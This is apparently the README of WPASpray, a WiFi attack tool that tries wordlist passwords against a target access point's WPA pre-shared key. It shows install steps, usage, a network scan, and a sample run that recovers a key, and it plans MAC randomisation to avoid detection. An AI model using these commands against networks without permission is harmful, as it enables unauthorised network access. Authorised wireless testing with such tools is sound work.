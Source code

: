 # WPASpray

A WiFi attack vector for spraying WPA Pre-Shared Keys against an access point.

## Installation

1. Navigate to the [releases page](../../releases) and donwload the latest .deb
2. Run ```apt install ./wpaspray-1.0-x86_64.deb```

### Note

When installing in Kali, as root, if you see the error ```N: Download is performed unsandboxed as root as file ...``` it is safe to ignore.

This is just apt saying that it doesn't have an ```_apt``` user to download and install the .deb file with that is non-root, non-login, and sandboxed.
If this error concerns you, you can follow these alternate installation instructions:

1. Run ```dpkg -i wpaspray-1.0-x86_64.deb```
2. Run ```apt install -f```

And you should encounter no errors.

## Examples (ran as root)

#### Usage
```
~# wpaspray -h
usage: wpaspray [-h] [-s] [-i INTERFACE] [-w WORDLIST] [-b BSSID] [-t TIMEOUT]             

WPASpray, an attack vector for spraying WPA Pre-Shared Keys against an access point.                                      

optional arguments:                         
  -h, --help            show this help message and exit                                 
  -s, --scan            Scan for available access points.                               
  -i INTERFACE, --interface INTERFACE       
                        Interface to use.   
  -w WORDLIST, --wordlist WORDLIST          
                        Wordlist to use. 1 password/phrase per line. Passwords          
                        less than 8 characters or lines starting with a '#'             
                        will be ignored.    
  -b BSSID, --bssid BSSID                   
                        BSSID of the target access point                                
  -t TIMEOUT, --timeout TIMEOUT             
                        Timeout to wait for a handshake with each password              
                        attempt. Default is no timeout.
```

#### Scan for available target access points:
```
~# wpaspray -i wlan1 -s
[ INIT ] Initializing...
[ INIT ] Complete.
[ SCAN ] Scanning for access points...
[ SCAN ] Complete.
[ SCAN ] Printing results...
      BSSID                     SSID               FREQUENCY  SIGNAL    TYPE   KEYMGMT 
---------------------------------------------------------------------------------------
E4:8D:8C:5C:07:CB  TestingWPA                      2.4 Ghz    -23 dBm  WPA2    wpa-psk   
DC:EF:09:A6:06:22  NETGEAR73                       2.4 Ghz    -61 dBm  WPA2    wpa-psk   
F0:F2:49:8B:90:48  CGNM-9048                       2.4 Ghz    -63 dBm  WPA2    wpa-psk   
64:77:7D:9F:B6:D8  CGNM-B6D8                       2.4 Ghz    -69 dBm  WPA2    wpa-psk   
00:FC:8D:93:0A:18  CGNM-0A18                       2.4 Ghz    -71 dBm  WPA2    wpa-psk   
C0:C1:C0:E6:2B:BD  Bright                          2.4 Ghz    -75 dBm  WPA2    wpa-psk   
84:94:8C:BF:FA:38  CGN-FA30                        2.4 Ghz    -77 dBm  WPA2    wpa-psk
```

#### Target a specific AP
```
~# wpaspray -i wlan0 -b e4:8d:8c:5c:07:cb -w wordlist.txt
[ INIT ] Initializing...
[ INIT ] Complete.    
[ SCAN ] Scanning for access points...      
[ SCAN ] Complete.    
[ SPRAY ] Starting password spray...        
[ SPRAY ] Target: BSSID 'E4:8D:8C:5C:07:CB'  SSID: 'TestingWPA'  Signal: -17 dBm        
[ SPRAY ] Trying psk: 'Password01!'         
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] disconnected
[ SPRAY ] scanning    
[ SPRAY ] Trying psk: 'Princess'            
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] disconnected
[ SPRAY ] scanning    
[ SPRAY ] Trying psk: 'TestPass12345!'      
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] completed   
[ SPRAY ] ############# SUCCESS! #############                                          
[ SPRAY ] # BSSID: 'E4:8D:8C:5C:07:CB'       #                                          
[ SPRAY ] # SSID: 'TestingWPA'               #                                          
[ SPRAY ] # Pre-Shared Key: 'TestPass12345!' #                                          
[ SPRAY ] ####################################
```

## Building From Source

If you choose to build the package yourself you can follow the guide below.

1. Clone the repository. `git clone github.com/nodocify/wpaspray.git`
2. Make sure you have EPM installed. `sudo apt install epm`
3. Navigate into the wpaspray directory and run `epm -f deb -v wpaspray`
4. EPM will create a new directory named after your kernel. Deb is located inside.

## To Do
* Have option to randomize MAC every X number of PSK attempts.
* Option to create a delay between attempts. Helpful for lower end access points.
